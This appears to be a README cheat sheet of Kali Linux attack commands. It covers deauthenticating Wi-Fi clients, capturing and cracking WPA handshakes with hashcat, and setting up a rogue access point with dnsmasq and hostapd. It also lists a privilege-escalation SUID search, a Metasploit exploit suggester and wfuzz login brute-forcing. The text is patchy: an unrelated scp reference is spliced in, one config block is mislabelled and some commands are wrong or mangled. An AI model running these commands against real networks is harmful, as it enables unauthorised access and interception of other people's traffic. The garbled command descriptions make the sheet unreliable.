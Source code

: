 # Kali-Linux-Reference

## Enabling Monitor Mode

* `iwconfig` : Show all network devices 
* `ifconfig wlan1 up` : To make sure network device is up and running 
* `airmon-ng` : Show all network cards 
* `airmon-ng check kill` : To prevent from disabling monitor mode 
* `airmon-ng start wlan1` : Start monitor mode 

## Reset to normal mode

* `airmon-ng stop wlan1mon` : Stop monitor mode
* `service network-manager start` : Restart network settings

## Sniffing Packets using airodump-ng

*PWR = Signal Strength should be above than -70*
* `airodump-ng wlan1mon` : Start sniffing
* `airodump-ng --bssid wlan1mon` :  Targeted sniffing


## macchanger

* `ifconfig wlan1 down` : Bring down the interface
* `macchanger -r wlan1` : Change mac address to random
* `ifconfig wlan1 down` : Bring the interface up


## Capturig Handshake file
* `airodump-ng -bssid [bssid] --channel [1] --write Desktop/Captures/WPA wlan0mon`

## Deauth Attacks

* `airodump-ng --channel --bssid  wlan1mon`
* `aireplay-ng --deauth 2000 -a [MAC of Access Point] -c [MAC of  Client] wlan1mon`

## Cracking Handshake file with Hashcat (Windows)
* `hashcat64.exe -m 2500 capture.hccap wordlist.lst`
* Keyspace method
* `hashcat64.exe -m 2500 -a3 capture.hccap -1 1234567890 ?1?1?1?1?1?1?1?1`
* `hashcat64.exe -m 2500 -a3 capture.hccap -1 ?d?d?d?d?d?d?d?d`

## Pyrit Reduce size of WPA/WPA2 .Cap file
* `pyrit -r capture.cap analyze`
* `pyrit -r capture.cap -o output.cap strip`


# Rouge Access Point

## Enabling Monitor Mode

* `airmon-ng check kill` : To prevent from disabling monitor mode 
* `airmon-ng start wlan1` : Start monitor mode 
* `ifconfig wlan1mon 10.0.0.1/24` : Set IP of Monitor Interface

## Install tools

* `apt-get install -y hostapd dnsmasq wireless-tools iw wvdial`

## Configure dnsmasq

* `mv /etc/dnsmasq.conf /etc/dnsmasq.conf_bkp` : Create backup of config file
* `vim /etc/dnsmasq.conf`

## dnsmasq.conf file
```
log-facility=/var/log/dnsmasq.log
#address=/#/10.0.0.1
#address=/google.com/10.0.0.1
interface=wlan0mon
dhcp-range=10.0.0.10,10.0.0.250,12h
dhcp-option=3,10.0.0.1
dhcp-option=6,10.0.0.1
#no-resolv
log-queries
```

* `vim /etc/hostapd/hostapd.conf`

## dnsmasq.conf file
```
interface=wlan1mon
driver=nl80211
ssid=Rouge-AP
channel=1
#enable_karma=1
```

## Start dnsmasq 

* `service dnsmasq start`
* `tail -f /var/log/dnsmasq.log`

## Start hostapd 

* `hostapd /etc/hostapd/hostapd.conf`

## scp

> Secure copy.
> Copy files between hosts using Secure Copy Protocol over SSH.

- Copy a local file to a remote host:

`scp {{path/to/local_file}} {{remote_host}}:{{path/to/remote_file}}`

- Copy a file from a remote host to a local folder:

`scp {{remote_host}}:{{path/to/remote_file}} {{path/to/local_dir}}`

- Recursively copy the contents of a directory from a remote host to a local directory:

`scp -r {{remote_host}}:{{path/to/remote_dir}} {{path/to/local_dir}}`

- Copy a file between two remote hosts transferring through the local host:

`scp -3 {{host1}}:{{path/to/remote_file}} {{host2}}:{{path/to/remote_dir}}`

- Use a specific username when connecting to the remote host:

`scp {{path/to/local_file}} {{remote_username}}@{{remote_host}}:{{path/to/remote_dir}}`

- Use a specific ssh private key for authentication with the remote host:

`scp -i {{~/.ssh/private_key}} {{local_file}} {{remote_host}}:{{/path/remote_file}}`

## Local Exploit Suggestor:
`post/multi/recon/local_exploit_suggester`

## Executeables with SUID bit set
* `find / -perm -u=s -type f 2>/dev/null `
* `find directory – user root – perm – 4000 – exec ls – ld   {} \ ; >/tmp/setuid`

## Wfuzz
* `wfuzz -c -w wordlist -u http://10.10.10.10/index.php?id=FUZZ`
* `wfuzz -z file,wordlist/others/common_pass.txt -d "uname=FUZZ&pass=FUZZ"  --hc 302 http://testphp.vulnweb.com/userinfo.php`
